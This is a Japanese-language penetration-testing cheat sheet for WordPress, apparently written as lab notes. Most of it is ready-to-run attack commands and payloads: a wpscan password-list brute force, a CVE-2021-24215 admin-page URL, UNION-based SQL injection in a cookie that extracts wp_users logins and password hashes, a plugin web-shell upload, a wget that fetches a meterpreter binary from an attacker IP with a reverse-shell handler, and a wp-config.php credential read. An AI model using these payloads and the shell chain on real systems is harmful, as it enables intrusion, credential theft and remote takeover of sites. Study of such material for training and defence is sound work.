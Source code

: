 # WordPress

core、pluginどちらかの脆弱性となる。両軸で脆弱性の調査をするとよい

### Controlled-admin-access-plugin(CVE-2021-24215)

https://blog.nintechnet.com/vulnerabilities-fixed-in-wordpress-controlled-admin-access-plugin/

```
http://management_portal/wordpress/wp-admin/admin.php?page=%2Fcontrolled_admin_access
```

上記のようなURLでユーザ登録画面にアクセスができる。

### Wpscan

hosts設定をできれば事前にした方がいい

* パスワードリスト攻撃

```
sudo wpscan --url http://management_portal:80/wordpress/ -U access -P /usr/share/wordlists/rockyou.txt
```



#### Themeでのリバースシェル

URL形式

```
http://management_portal/wordpress/wp-content/themes/twentytwenty/404.php
```

リバースシェル

https://github.com/ivan-sincek/php-reverse-shell

↑windowsとlinuxどちらにも対応していてよい



### プラグインで脆弱性を検索

```bash
searchsploit --update
searchsploit elementor
searchsploit ocean-extra
searchsploit wp-survey-and-poll
searchsploit ocean
searchsploit survey poll
```



### Wordpress Plugin Survey & Poll 1.5.7.3

* 以下の画像のようなアンケートのプラグイン

![image-20230126222253302](img/wordpress/image-20230126222253302.png)

* burpsuiteでcookieの脆弱性を悪用する

  ![image-20230126222418143](img/wordpress/image-20230126222418143.png)

```
Cookie: wp_sap=["1650149780')) OR 1=2 UNION ALL SELECT 1,2,3,4,5,6,7,8,9,@@version,11#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name='wp_users'#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```

```
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```



### プラグインをアップロードしてwebシェルを取得する

```bash
cd /usr/share/seclists/Web-Shells/WordPress
sudo zip plugin-shell.zip plugin-shell.php
```

* zipファイルをプラグインとしてアップロードする

![image-20230126222843381](img/wordpress/image-20230126222843381.png)

![image-20230126222849119](img/wordpress/image-20230126222849119.png)

* webシェルにアクセスする

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
  ```

  ```bash
  msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.119.153 LPORT=443 -f elf > shell.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://192.168.119.153/shell_2.elf
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=chmod%20%2bx%20shell.elf
  ```

  ```bash
  sudo msfconsole -q -x "use exploit/multi/handler;\
  >              set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
  >              set LHOST 192.168.119.153;\
  >              set LPORT 443;\
  >              run"
  ```

  ```bash
  curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=./shell.elf
  ```



### wp-config.phpに認証情報がないか確認する

```bash
cat wp-config.php
```



